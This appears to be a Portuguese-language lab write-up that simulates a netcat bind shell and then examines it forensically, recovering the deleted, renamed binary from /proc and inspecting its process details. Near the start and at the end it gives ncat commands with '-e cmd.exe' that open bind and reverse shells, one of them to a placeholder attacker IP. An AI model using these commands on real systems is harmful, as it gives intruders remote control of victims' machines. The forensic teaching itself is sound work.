 # bind-shell-attack

Nessa atividade foi necessário simular um bind shell attack, e após isso, no computador da vitima, recuperar o arquivo binário deletado desse ataque e analisar esse processo suspeito.

- Nesse ataque de backdoor foi utilizado o netcat, por mais que existam outras maneiras de realizar esse tipo de ataque.

Em um bind shell attack o computador da vítima é capaz de transmitir o executavel do bash, ou cmd, através de uma porta específica, para o computador da pessoa que deseja realizar esse ataque. No caso do netcat o atacante necessita fazer com que a vítima rode uma linha de comandos, transmitindo o bash para o computador do atacante. No caso do bind shell, o computador da vítima fica esperando que o computador de ataque se conecte ao ip e a porta.

Ex:
  C:\Program Files (x86)\Nmap>ncat -lvp 4444 -e cmd.exe  -> computador da vítima 
  
  nc x.x.x.x 4444 -> computador de ataque
  
Na atividade o netcat abre a porta tcp 41000 e envia informações para /dev/null do computador da vitima. Além disso ele mascara o nome do programa para "freedom",é colocado no diretorio /tmp(arquivos temporários), e após executado é removido, sobrando apenas o seu processo em execução.

![freedom](https://user-images.githubusercontent.com/44793167/96667221-06003680-132f-11eb-868f-c891f98685aa.jpg)

Após isso, na atividade era necessário utilizar o "nestat -nalp" para verificar a porta que esta aberta e o processo que está ocorrendo naquela porta, porém meu netstat não estava funcionando, mas foi possivel ver o processo em execução através do "ps", com o PID 16725.

![ps](https://user-images.githubusercontent.com/44793167/96667414-7018db80-132f-11eb-8ec3-24d72cb90de8.jpg)

Com o PID do nosso processo duvidoso, foi possível ver diversas informações sobre ele:

![info](https://user-images.githubusercontent.com/44793167/96667592-b5d5a400-132f-11eb-9272-0a0897fbe5ba.jpg)

Com isso, foi possivel ver que o arquivo binário do processo foi apagado, e assim foi necessário recuperar esse arquivo.

- Utilizando o comando:  cp /proc/16725/exe /tmp/recovered_bin

Para saber se a pessoa que atacava o computador da vítima estava utilzando o netcat, podemos comparar as hashes dos dois programas, e assim ver se eles são iguais.

![hashes](https://user-images.githubusercontent.com/44793167/96668117-da7e4b80-1330-11eb-9a5b-cfd2679cfcfd.jpg)

Dessa forma sabemos que o processo era o netcat, só que camuflado.

Além disso, foram realizados outros tipos de análise

![cmdline](https://user-images.githubusercontent.com/44793167/96668463-95a6e480-1331-11eb-9807-40b0c8dade13.jpg)

- Através dessa análise do comand line, é possivel notar que os nomes estão diferentes, sendo características de programas maliciosos, pois esse programa está mascarado com um nome diferente do seu nome original.

![enviro](https://user-images.githubusercontent.com/44793167/96668766-3eedda80-1332-11eb-8571-30c584f46daf.jpg)

- Através do enviroment do processo podemos ver quem ou o que iniciou o processo

![fd](https://user-images.githubusercontent.com/44793167/96668962-ac9a0680-1332-11eb-9623-732d471f28e7.jpg)

- Pelos file descriptors é possivel saber diretórios ou arquivos que o processo está usando para armazenar coisas, juntamente com seus sockets abertos

![maps](https://user-images.githubusercontent.com/44793167/96669192-203c1380-1333-11eb-9b37-159465b2b74f.jpg)

- Pelos process maps é possivel saber que bibliotecas o processo estava utilizando, além de ser possivel que apareçam links para arquivos maliciosos que o processo estava utilizando.

![status](https://user-images.githubusercontent.com/44793167/96669468-ab1d0e00-1333-11eb-9516-595d0121f89a.jpg)

- Nos status do processo é possivel ver o PID dos processos pai desse processo.

Além do bind shell atack, existe o reverse shell atack, onde o computador de ataque fica à espera que o computador da vítima se conecte a ele, ou seja, o computador do atacante só precisa declarar que porta ele estará escutando, e assim o computador do alvo precisa se conectar ao ip e porta do atacante, além transmitir o executável do bash ou cmd.

ex:

   nc -lvp 4444 -> computador de ataque 
   
   C:\Program Files (x86)\Nmap>ncat x.x.x.x 4444 -e cmd.exe -> computador do alvo


  

